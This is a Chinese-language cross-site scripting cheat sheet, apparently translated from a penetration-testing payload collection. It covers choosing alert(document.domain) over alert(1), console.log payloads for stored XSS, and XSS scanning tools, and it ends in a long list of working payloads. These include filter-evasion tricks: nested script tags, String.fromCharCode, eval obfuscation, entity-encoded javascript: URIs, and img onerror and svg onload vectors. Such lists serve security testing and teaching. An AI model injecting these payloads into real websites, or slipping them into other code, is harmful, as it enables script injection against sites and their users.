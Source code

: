 [sandbox-domains]:https://security.googleblog.com/2012/08/content-hosting-for-modern-web.html

因此，最好使用`alert(document.domain)`或`alert(window.origin)`作为默认的XSS有效载荷，而不是`alert(1)`，以便了解XSS实际执行的上下文。

替代`<script>alert(1)</script>`的更好有效载荷：

```html
<script>alert(document.domain.concat("\n").concat(window.origin))</script>
```

虽然`alert()`对于反射型XSS很好，但对于存储型XSS来说可能会成为负担，因为每次执行都需要关闭弹窗，所以可以使用`console.log()`在开发者控制台中显示消息（不需要任何交互）。

示例：

```html
<script>console.log("测试来自XYZ页面搜索栏的XSS\n".concat(document.domain).concat("\n").concat(window.origin))</script>
```

参考资料：

- [Google Bughunter University - 沙箱域中的XSS](https://sites.google.com/site/bughunteruniversity/nonvuln/xss-in-sandbox-domain)
- [LiveOverflow视频 - 不要使用alert(1)进行XSS测试](https://www.youtube.com/watch?v=KHwVjzWei1c)
- [LiveOverflow博客文章 - 不要使用alert(1)进行XSS测试](https://liveoverflow.com/do-not-use-alert-1-in-xss/)

### 工具

大多数工具也适用于盲注XSS攻击：

- [XSSStrike](https://github.com/s0md3v/XSStrike): 非常受欢迎但维护不佳
- [xsser](https://github.com/epsylon/xsser): 利用无头浏览器检测XSS漏洞
- [Dalfox](https://github.com/hahwul/dalfox): 功能全面，由于使用Go实现而速度极快
- [XSpear](https://github.com/hahwul/XSpear): 类似于Dalfox，但基于Ruby
- [domdig](https://github.com/fcavallarin/domdig): 无头Chrome XSS测试器

## HTML/应用中的XSS

### 常见载荷

```javascript
// 基本载荷
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>
<script>\u0061lert('22')</script>
<script>eval('\x61lert(\'33\')')</script>
<script>eval(8680439..toString(30))(983801..toString(36))</script> //parseInt("confirm",30) == 8680439 && 8680439..toString(30) == "confirm"
<object/data="jav&#x61;sc&#x72;ipt&#x3a;al&#x65;rt&#x28;23&#x29;">

// 图片载荷
<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>
<><img src=1 onerror=alert(1)>

// SVG载荷
<svg\x0Aonload=alert(1)>
<svg/onload=alert('XSS')>
<svg onload=alert(1)//
<svg/onload=alert(String.fromCharCode(88,83,83))>
<svg id=alert(1) onload=eval(id)>
```